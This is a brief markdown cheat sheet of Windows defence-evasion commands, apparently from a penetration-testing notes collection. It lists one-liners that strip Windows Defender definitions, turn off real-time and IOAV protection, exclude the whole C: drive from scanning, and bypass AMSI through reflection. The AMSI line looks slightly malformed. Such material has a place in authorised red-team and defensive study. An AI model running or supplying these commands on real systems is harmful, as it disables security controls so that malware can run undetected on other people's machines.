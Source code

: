 # Disable Defender

```
"c:\program files\windows defender\mpcmdrun.exe" -RemoveDefinitions -All Set-MpPreference -DisableIOAVProtection $true
```

Disabling defender  and remove definitions with mpcmdrun.exe

```
Set-MpPreference -DisableRealtimeMonitoring $true
```

Disable Defender(causes alert on Desktop)(Can be run with psexec)

```
Add-MpPreference -ExclusionPath "c:\"
```

Add exclusion path to Defender

```
"[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonePublic,static').SetValue(,True)"
```

Turn off AMSI
